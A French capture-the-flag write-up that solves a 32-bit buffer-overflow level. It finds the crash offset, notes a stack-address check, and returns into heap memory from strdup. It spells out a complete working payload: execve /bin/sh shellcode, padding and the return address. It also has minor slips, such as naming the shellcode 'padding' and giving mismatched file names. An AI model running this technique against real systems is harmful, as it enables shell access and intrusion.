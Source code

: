 # LEVEL2

## Intro

ici le binaire lit une entrée standard et l'affiche

![alt text](image-1.png)

En regardant le binaire décompilé avec Ghidra on voit :

![alt text](image.png)

On peut déjà trouver où ça segfault grâce au [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) et GDB : c'est à **80**.

----

Ensuite, on remarque cette condition :

```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", unaff_retaddr);
    _exit(1);
}
```

qui **interdit** tout saut vers une adresse **0xb0000000–0xbfffffff** (pile, tas, libc…).
La pile est donc inexploitable, il faut passer par la **heap**.

Heuresement il y a strdup, de notre input, et avec ca on peux exploiter la heap car c'est dynamique, il suffit de trouver a quelle endroit ce trouve strdup, on peut le faire simplement avec ltrace : 


![alt text](image-2.png)


## Construction du payload : 


Comme on l'a  vue avant avec ltrace l addresse de strdup `0x0804a008` donc en little indien ca sera `\x08\xa0\x04\x08`
on trouve sur ce site : https://shell-storm.org/shellcode/index.html un shellcode de 28 byte, il nous faut du padding pour arriver a 80 la ou ca segfault et  ajouter  l addresse de strdup pour que ca execute le shell

voici le padding choisit de 28 bytes : 
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`


On peux construire notre payload de cette facon : 

`python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + (80 - 28) * "A" + "\x08\xa0\x04\x08"' > /tmp/payload`

Et enfin on peux executer toujour avec cat /tmp/exploit - pour que ca reste bloquer et ainsi avoir le temps de faire la commande qui permet de recuperer le flag !

![alt text](image-3.png)